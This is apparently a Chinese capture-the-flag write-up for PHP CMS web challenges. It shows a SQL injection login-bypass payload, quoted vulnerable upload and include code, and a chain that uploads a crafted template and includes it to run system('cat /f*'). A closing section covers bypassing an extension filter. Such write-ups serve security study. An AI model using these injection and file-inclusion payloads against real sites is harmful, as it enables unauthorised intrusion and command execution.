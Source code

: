 ```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```

`模版管理->文件查看`可以读源码

`api/admin_file_view.php`存在`include()`，配合新增模版那可以实现文件包含getshell

```php
if($debug==1 && preg_match('/^user/', file_get_contents($f))){
    include($f);
}
```

注意正则，匹配文件内容是否`以user开头`

那么：

![](https://i.loli.net/2021/11/20/gCSfc4bF8XONZ6t.png)



```php
#  /api/admin_templates.php
	case 'upload':
		extract($_POST);
		if(!preg_match('/php|phar|ini|settings/i', $name))
		{	
			file_put_contents(__DIR__.'/../templates/'.$name, $content);
			$ret['msg']='文件上传成功';
		}else{
			$ret['msg']='文件上传失败';
		}
		break;
```



payload：

```
api/admin_file_view.php

POST:
debug=1&f=/var/www/html/templates/a.sml&1=system('cat /f*');
```

![](https://i.loli.net/2021/11/20/qYPoI52jBN8WARt.png)



## 506-文件包含

限制了后缀，换别的就行：

```php
if($user){
	$ext = substr($f, strlen($f)-3,3);
	if(preg_match('/php|sml|phar/i', $ext)){
		$ret['msg']='请不要使用此功能';
		die(json_encode($ret));
	}
```
